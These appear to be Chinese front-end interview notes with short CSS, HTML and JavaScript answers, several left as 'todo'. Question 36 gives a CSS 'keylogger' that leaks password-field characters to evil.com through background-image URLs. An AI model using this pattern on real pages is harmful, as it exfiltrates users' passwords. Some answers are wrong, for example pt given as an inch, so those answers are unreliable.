# 25、scroll-snap-align属性的应用场景是什么？

这个属性设置后，会一个块被滚了一部分中途松手了之后，页面自动滚回去或者滚到下一个块

使用：

ul {
  scroll-snap-type: y mandatory;
}

li {
  scroll-snap-align: start; // end center
}


# 26、如何用css实现把“我不爱996”变成“699爱不我”？

direction: rtl;
unicode-bidi:bidi-override;

# 27、举例说明你对指针事件（pointer-events）的理解

pointer-events css属性指定在什么情况下，某个特定的图形元素可以成为鼠标事件的target
当 pointer-events 为 none 时，比如 a 链接不再生效；

# 28、鼠标事件css的:hover和js的mouseover有什么区别？


    :hover为CSS伪类，mousehover为JS DOM事件。

    CSS只能改变元素样式，JS既可以改变元素样式又可以改变元素中的内容。

    :hover当鼠标移出后恢复之前的样式，mouseover需要结合mouseout才能恢复之前的样式

    同等效果下，从性能上讲，:hover优于mousehover

    水平有限只能想到这些，希望能抛砖引玉，向大牛们多多学习


# 29、使用css的attr()写一个类似a标签title的提示框

html

# 30、举例说明如何从html元素继承box-sizing？

*, *::before, *::after {
  box-sizing: inherit;
}

html {
  box-sizing: border-box;
}

# 31、异步加载CSS的方式有哪些？

旧：
js动态插入link标签

在link标签上设置media属性为低优先级的 print,文档渲染后改为screen

新:
<link rel="preload" href="cssfile.css" as="style" onload="this.rel='stylesheet'">
改rel值，只有谷歌完美兼容

# 32、css的加载会阻塞DOM树解析和渲染吗？为什么？

css加载不会阻止dom数的解析，但是会阻止dom树的渲染，因为css下载完成后解析成cssom与dom生成渲染数后，页面才会渲染，绘制出来

# 33、css的加载会阻塞js运行吗？为什么？

会阻塞js的运行，因为js可能会去获取或者改变元素样式，所以浏览器为了不重复渲染，等所有css加载渲染完成后再执行js

# 34、为了减小css文件的大小，怎么去除无用css呢？有哪些方法？

使用 purgeCss 插件进行清理

# 35、在一个项目里，你是如何组织(架构)css代码的？

todo

# 36、使用纯css能否监控到用户的一些信息？怎么实现？

可以，著名的css keylogger：

input[type="password"][value$="a"] {
  background-image: url("http://evil.com/api/a");
}

input[type="password"][value$="b"] {
  background-image: url("http://evil.com/api/b");
}

input[type="password"][value$="c"] {
  background-image: url("http://evil.com/api/c");
}

# 37、请使用css3实现图片的平滑转换

以全局监听的方式通过 a 标签的描点进行 view 动态切换页面，只要把 a 标签带有 id 的 href 属性的值指到锚点，用 CSS3 的动画进行切换页面.

# 38、使用css画个钟表的时间刻度

思路：定义一个钟表的大小位置，用absolute

从 1点到12点用 ul li，每个li用 nth-child 来控制位置，角度用transform，然后分钟的刻度也是照样子分别控制位置，要用48个li

# 39、ui设计中px、pt、ppi、dpi、dp、sp之间的关系？

px 电子屏幕上组成一幅图画或者照片的基本单元
pt 英寸
ppi 英寸像素数
dpi 每英寸多少点
dp 安卓开发用的长度单位
sp 安卓开发用的字体大小单位

# 40、举例说明shape-outside的属性的用途有哪些？

shape-outside 定义了一个可以是非矩形的形状，相邻的内联内容应围绕该形状进行包装 

shape-outside：circle() 属性可以实现文字圆形环绕图片效果

# 41、用css3画出一个立体魔方

todo

# 42、如何重写行内样式？方法有哪些（至少两种）？

1、！important
2、var divStyle = document.querySelector('#div').style // 修改属性

# 43、有哪些标签是不支持伪元素的？

伪元素有：

::after 
::before
::first-letter
::first-line

::selection
::backdrop

img input iframe 不支持这样用的，因为需要这些元素是可以插入内容的


# 44、请使用纯css实现波浪效果

todo

# 45、请问class与[class=xxx]的区别是什么？两者是否等价？

不等价
class是类选择器，可以作用于任何dom元素
[class=xxx]是属性选择器，只能作用于特定类型的dom元素

# 46、为什么说对opacity进行动画要比box-shadow进行动画性能更好呢？

opacity不会影响布局，也需要重绘

# 47、能不能使用纯css使你的浏览器卡死？怎么实现？

可以，用计算属性calc、变量

# 48、如何使用css实现鼠标跟随？

其实很多 CSS 效果，都离不开 障眼法 二字。要监测到当前鼠标处于何处，我们只需要在页面上铺满元素即可：

https://www.php.cn/css-tutorial-453627.html

# 49、你有使用过css的属性background-blend-mode吗？说说它的运用场景有哪些？

背景混合模式

可以是背景图片与背景图片的混合，

也可以是背景图片和背景色的之间的混合。

https://blog.csdn.net/dwb123456123456/article/details/84563367

# 50、用css3实现文字发光的效果

text-shadow：0 0 10px #fff,
0 0 20px #fff,
0 0 30px #fff,
0 0 40px #00a67c,

周级综合题目（50）

# 1、你所在的团队有规范吗？举例说明都定义了哪些规范？

1、命名使用驼峰命名法；
2、项目使用ts强语法编写；
3、代码风格使用eslint检测；
4、编写的纯函数使用函数式编程；
5、遥遥无期的单元测试。。。

# 2、请描述下null和undefined的区别是什么？这两者分别运用在什么场景？

null 是“空值”，表示某个对象/资源并不存在

undefined 是指一个属性或变量还未赋值。

# 3、CSS的伪类和伪对象有什么不同？

    伪类：我们常用的比如，hover，focus等，我认为伪类是为了弥补选择器的不足。还有伪类选择器，比如first-child,nth-child.
    伪元素 : ::before ::after 是为了创建一个dom元素，使用content属性指定要插入的内容。content必须有值（空值也行）。还有 伪元素选择器，比如 first-line first-letter

# 4、请描述下元素的href和src有什么区别？

1.概念不同
href用于在当前文档和引用资源之间确立联系
src用于将资源替换当前元素
2.解析方式不同
href解析时，会并行下载资源且不会停止当前文档处理
src解析时，会暂停当前文档处理

# 5、浏览器在什么情况下会出现“已拦截弹窗式窗口”？怎么解决？

已拦截弹窗式窗口出现的原因是你想打开一个页面，但是这个页面并不是通过你的点击事件实现，而是已其他方式出现的。
使用模拟点击事件，

<script>
    setTimeout(function() {
       window.open('https://www.baidu.com');
    }, 300);
</script>


<script>
    function opens() {
        window.open('https://www.baidu.com');
    }
    document.body.addEventListener('click',opens); // 主动点击不被拦截
   // 模拟点击被拦截
   setTimeout(function () {
        document.body.dispatchEvent(new Event('click'));
    }, 500);
</script>

# 6、解释下为什么{} + [] === 0为true？

那个 {} 是空语句块而非空对象，{} 认定是语法块， 这个放在前面，只有混淆作用，并不参与运算。

{} + [] === 0

+[] === 0

0 === 0 

true

# 7、移动端的布局用过媒体查询吗？写出例子看看

@media(min-width: 501px) and (max-width: 901px) {
	body {
		color: red;
	}
}

# 8、简要描述下什么是DNS？它有什么用？


Domain Name System 域名系统
它将域名映射到 IP 地址。

解析域名,可以用来将 好记的网址 解析为 不好记的 IP地址

# 9、js的函数有哪几种调用形式？

- 自调用 (function())();
- 直接调用 fn()
- 做为对象的属性调用 obj.fn()
- 使用构造函数调用
new fn()
- 使用call或apply调用
fn.call() || fn.apply()

fn(arg1, arg2, ...)
fn.call(thisArg, arg1, arg2, ...)
fn.apply(thisArg, [arg1, arg2, ...])

其中，call 和 apply 使得函数内的 this 被绑定到 thisArg 上。

# 10、写出div在不固定高度的情况下水平垂直居中的方法？

1、flex

 .tith1 {
    display: flex;
    justify-content: center;
    align-items: center;
    background: red;
  }

  2、table

  text-align: center;
  width: 100%;
  display: table;

  3、

父盒子相对定位
子盒子绝对定位:
  position:absolute;
left:50%;
top:50%;
transform:translate(-50%,-50%);


父盒子相对定位，子盒子绝对定位和margin
position:absolute;
left:0;
top:0;
right:0;
bottom:0;
margin:auto;

# 11、有使用过svg吗？请用svg画一个圆

<svg width="50" height="50">
    <circle cx="25" cy="25" r="10" fill="black" />
</svg>

# 12、说说你对emoji表情的理解，前端如何处理emoji表情？它的运用场景有哪些？

说一个使用emoji遇到的问题吧，如果前端使用emoji保存入库，服务器使用mysql的情况下需要设置对应的字符集为【utf8mb4】支持该表情 。


# 13、用js写出死循环的方法有哪些？

无结束条件
递归


while

while (true) {

}

for

for (;;) {

}

# 14、为什么会出现浮动？在什么时候需要清除浮动呢？

1.为了实现文字环绕图片效果
2.父容器的高度塌陷时候,需要清除浮动

# 15、使用HTML5需要遵守哪些设计原则？

避免不必要的复杂性

支持已有内容

解决现实的问题

内容模型

平稳退化

# 16、你知道什么是图片防盗链吗？防盗链怎么实现呢？说说你的方法

盗链 是指在自己的页面上展示一些并不在自己服务器上的内容。通常的做法是通过技术手段获得它人服务器上的资源地址，绕过别人的资源展示页面，直接在自己的页面上向最终用户提供此内容。

防盗链 就是防止盗链。

# 17、分别写出数组的交集、并集、差集、补集这四个方法

const intersect = (a, b) => a.filter(i => b.includes(i)) // 交
const exclude = (a, b) => a.filter(i => !b.includes(i)) // 差
const union = (a, b) => exclude(a, b).concat(b) // 并
const unionAll = (a, b) => a.concat(b) // 重复并
const xor = (a, b) => exclude(a, b).concat(exclude(b, a)) // 补

# 18、当一个元素被设置为浮动后，它的display值变为什么呢？

一个元素被设为绝对定位或者浮动后，其display计算值就变为了block，尽管其表现形式和inline-block类似——包裹内部元素且不超出包含块的特性。按照如下方式在控制台尝试可验证：

var span = document.createElement('span');
document.body.appendChild(span);
console.log('1.' + window.getComputedStyle(span).display);
span.style.float = 'left';
console.log('2.' + window.getComputedStyle(span).display);
输出：
1.inline
2.block

# 19、HTML5标准提供了哪些新的API？你有用过哪些？


    两个选择器API
        document.querySelector()
        document.querySelectAll()
    地理定位API
        getCurrrentPosition()
    多媒体API
        <video></video>
        <audio></audio>
    拖放

<div ondrop="drop(event)" ondragover="allowDrop(event)"></div>
<div draggable="true" ondragstart="drag(event)"></div>

    文件
    window.requestFileSystem()
    XHR2

var xhr = new XMLHttpRequest();
xhr.open("POST", "@Url.Action("Upload")")

    本地存储API
        localStorage
        sessionStorage

    canvas

<canvas id="myCanvas" width="200" height="100">

    svg

<svg xmlns="http://www.w3.org/2000/svg" version="1.1">
   <circle cx="100" cy="50" r="40" stroke="black" stroke-width="2" fill="red" />
</svg>

# 20、说说你对Git的branch, diff, merge的理解？

branch git分支相关操作，可用于查看、新建、删除分支以及分支的重命名操作
diff 用于对比两次修改的差异 可以通过自定义参数来指定对比哪两次修改
merge 用于合并分支或者某次提交 一般用于将分支或修改的内容合并到master上
三者都是git的基本操作指令

# 21、要实现一个js的持续动画，你有什么比较好的方法？

requestAnimationFrame，浏览器专门为js动画提供的API。

# 22、行内css和important哪个优先级高？

!important 

# 23、写出以下几个HTML标签：字体、居中、文字加粗、下标

现在这些标签都有相应的CSS属性进行设置了吧
字体：font
居中：text-align: center
文字加粗：font-weight: bold
下标：vertical-align:sub

# 24、你认为前端工程师应该分为哪些级别呢？说说你的看法

切图仔，页面仔，X架构,全栈，CTO

# 25、写例子说明如何给li绑定事件（ul下有1000+个li）？

$el.addeventlistener('click', function(e) {
	console.log(e.target)
})

# 26、如何更改placeholder的字体颜色和大小？

input::-webkit-input-placeholder {
      color: red;
    }

# 27、Doctype有什么作用？你知道有多少种Doctype文档类型吗？

用于标识该文件编写是基于哪个HTML版本的语法。

<-- html5-->
<!DOCTYPE html>

<-- html4-->
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Frameset//EN" 
"http://www.w3.org/TR/html4/frameset.dtd">


DOCTYPE声明指定了浏览器对于HTML文档解析的类型；

    HTML5的DOCTYPE只有一种：

<!DOCTYPE html>

    HTML4.01的DOCTYPE有三种：Strict，Transitional和Frameset；

# 28、不查资料，你会手写正则吗？

https://github.com/haizlin/fe-interview/issues/974


    ^：匹配以...开头的的字符串
    $：匹配以...结尾的的字符串
    ^和$同时使用：精确匹配
    []：匹配字符组的一个列表

# 29、说说你理解的同步和异步的区别是什么？

同步就是上一个任务结束下一个任务再开始，比如alert弹窗，你不点击确定他就会阻塞后边代码的执行；
异步就是按顺序开始（不可能同时开始）但是不一定按顺序结束，比如图片的加载就是走的异步。

# 30、移动端微信页面有哪些兼容性问题及解决方案是什么？

1.rem方案通过 reset js 进行适配
2.vw 方案 搭配px to viewport进行适配

# 31、列举出你最常用的meta标签的写法和作用 

背下来：https://github.com/haizlin/fe-interview/issues/971

# 32、你有用过单例模式吗？主要运用场景有哪些？

todo

# 33、不用第三方库，说说纯js怎么实现读取和导出excel？

 let blob = new Blob([res.data],{type: "application/vnd.openxmlformats-officedocument.spreadsheetml.sheet"});
            let a = document.createElement('a')
            a.download = 'XXX.xlsx'
            a.href =URL.createObjectURL(blob) 
            document.body.appendChild(a)
            a.click()

# 34、你对视网膜(Retina)分辨率有了解吗？有没有在实际中使用过？

Retina分辨率指的是屏幕的物理分辨率达到了使得人眼难以看到单个物理像素；

具体应用应该就是dpr > 1的屏幕适配，需要根据不同dpr给出合适尺寸的图片；

设备像素比（dpr） = 设备像素（分辨率）/ 设备独立像素（屏幕尺寸）

# 35、HTML5的页面可见性（Page Visibility）有哪些应用场景？

document.visibilityState属性

产生的原因:

    不能触发unload,pageHide事件的时候，比如：
    手机端切换到最近任务界面,点击另一个APP,
    手机端直接按home键返回主屏幕;
    PC端最小化,



    停止与服务器的轮询
    停止页面音视频


属性值：字符串

  hidden：页面彻底不可见。
  visible：页面至少一部分可见。

触发的事件：

 document.onvisibilitychange
 document.addEventListener('visibilitychange',  ()=> {
  // 用户当前页面不可见（离开或者后端或者最小化，或者页签切换）
  if (document.visibilityState === 'hidden') {
    document.title = '页面不可见';
  }

  // 用户打开或回到页面
  if (document.visibilityState === 'visible') {
    document.title = '页面可见';
  }
});

页面卸载：
	
    页面可见时，用户强制关闭 Tab 页。
    页面可见时，（tab页签切换）。
    页面不可见时，用户或系统关闭浏览器窗口。

https://github.com/haizlin/fe-interview/issues/975


# 36、你有画过流程图吗？用过什么软件？开始和判定分别用什么图形表示？

processon。  开始使用圆角矩形，判定使用菱形。

# 37、分别封装精确运算的加减乘除四个方法

这个是真的难

https://github.com/haizlin/fe-interview/issues/981

# 38、如何让大小不同的图片等比缩放不变形显示在固定大小的div里？写个例子



    图片等比缩放 img{ object-fit: cover/contain;}

    div宽高比例固定，跟随屏幕变化而变化，利用padding垂直方向的属性来实现


# 39、 HTML5怎么为输入框添加语音输入的功能呢？

<input type=”text” speech x-webkit-speech />

非h5规范，服务需要走google的服务器

# 40、你有自己买过服务器和域名用来搭建博客或者网站吗？

# 40、不依赖第三方库，说下如何使用js读取pdf？

这个题目有两种解读：

    前端不使用第三方库，如何将 PDF 文件显示在网页上。
        现代桌面浏览器都自带 PDF viewer 插件的，用 <iframe src="file.pdf"> 就能显示。（embed应该也可以）

    前端不使用第三方库，如何读取并解析 PDF 格式，利用 HTML 技术渲染 PDF 文件内容？
        这个就是 pdf.js 干的事情。思路是使用 FileReader API 读取文件二进制内容，根据 PDF 文件规范解析内容（PDF 是开源格式），根据 PDF 文件描述的文档内容和布局，用 canvas 或者 DOM 展现出来。内嵌的 font 或图片可以提取二进制然后用 blob URL 搞定，难点是如何用 DOM 实现 PDF 格式描述的布局 (不清楚 PDF 是如何描述布局的)。

# 41、说说你对前端二倍图的理解？移动端使用二倍图比一倍图有什么好处？

二倍图是指单位面积下设备像素与css像素个数之比为 4 的位图。

移动端使用二倍图可以在Retina屏幕下保真展示。

# 42、说说你对accesskey的理解，举例说明它有什么运用场景？

制定快捷键触发对元素绑定的事件

# 43、进程与线程有什么区别？JS的单线程带来哪些好处？

一个程序必定包含>=1个进程，
一个进程必定包含>=1个线程，
进程之间不共享内存，每多一个进程就要多分配一定的内存。
多个线程共享内存，因此多线程可以提高程序的并发性。

JS单线程带来的好处：

JS主要是面向浏览器的，因此是和用户实时交互的，如果多线程执行的话，你无法确定同时开始的任务哪个会先结束，以网页加载为例，可能导致网页HTML结构已经加载好，但是CSS样式还未加载完成，导致用户浏览体验差。或者两个线程同时对一个DOM结点进行修改和删除操作，则无法判断以哪个线程为准。

# 44、准确说出'1,2,3,4'.split()的结果是什么（包括类型和值）？

运行结果为 ["1,2,3,4"]，是一个长度为1的Array，元素类型为String。
关于split函数，其可以接受两个参数，第一个参数是字符串或正则表达式，从该参数指定的地方分割 stringObject；但是第二个参数并不是说限制分割次数，而是限制返回Array的最大长度，举个例子：

let a = '1,2,3,4,5,6';
a.split(',', 3);  // 返回的结果为 ["1", "2", "3"]
a.split(',', 5);  // 返回的结果为 ["1", "2", "3", "4", "5"]

# 45、你是如何规划响应式布局的？

从项目角度来讲，
PC 和 Mobile 是一个项目还是两个项目；

从方法流派来讲，
有栅栏布局，固定 viewport，使用 rem/pt/vw 单位，使用定位百分比，修改为 rem/vw 单位，五种；

从文件结构来讲，
是独立为响应布局专用 css 文件，还是跟随组件一起；

其他细节，
用 flex-grow 的地方，用 % 的地方，用 em 的地方

# 46、行内元素、块级元素、空(void)元素分别有哪些？

行内元素

a, b, input, span, label, button, textarea...
块级元素

div, form, table, h1...h6, p
空元素

img, input, hr, br, meta, source,track

# 47、请列举出多种减少页面加载时间的方法 


缓存利用： 缓存 Ajax，使用 CDN、外部 JavaScript 和 css 文件缓存，添加 Expires 头，在服务器端配置 Etag，减少 DNS 查找等。
• 请求数量．合并样式和脚本，使用 css 图片精灵，初始首屏之外的图片资源按需加载，静态资源延迟加载。
• 请求带宽：压缩文件，开启 GZIP 。
• css 代码：避免使用 css 表达式、高级选择器、通配选择器 。
• JavaScript 代码：用散列表来优化查找，少用全局变量，用 innerHTML 代替 DOM 操作，减少 DOM 操作次数，优化 JavaScript 性能，用 setTimeout 避免页面失去响应，缓 存 DOM 节点查找的结果，避免使用 with (with 会创建自己的作用域， 增加作用域链的 长度），多个变量声明合并。
• HTML 代码：避免图片和 iFrame 等 src 属性为空 。 src 属性为空，会重新加载当前页面 ， 影响速度和效率 ， 尽量避免在 HTML 标签中写 Style 属性。


https://github.com/haizlin/fe-interview/issues/995


# 48、你是如何更好地处理Async/Await的异常的？

https://github.com/haizlin/fe-interview/issues/994

# 49、说说你对低版本IE的盒子模型的理解

IE盒子模型的宽高为content、padding、border之和

box-sizing: content-box; => W3C盒子宽高为content的宽高； 

box-sizing: border-box; => IE盒子宽高

# 50、请描述一下cookies、sessionStorage和localStorage的区别？

    cookie：存放于浏览器中的数据；常用于会话管理，用户设置，行为跟踪等。在js中可以通过document.cookie来进行设置，获取或删除等操作；不过cookie有许多明显的缺点：
        cookie的大小限制在4KB；
        cookie会伴随http请求一起被发送，会浪费网络带宽
        cookie的正确操作比较困难
    webStorage：H5新增的API，数据存放于客户端本地内存中；sessionStorage和localStorage操作一致，而sessionStorage的有效期限为一次session会话（即一个tab页从打开到关闭之间的时间段），localStorage是没有失效时间的（即永久保存，删除需要手动处理）；

todo
# 算法题3


1、

2、

3、














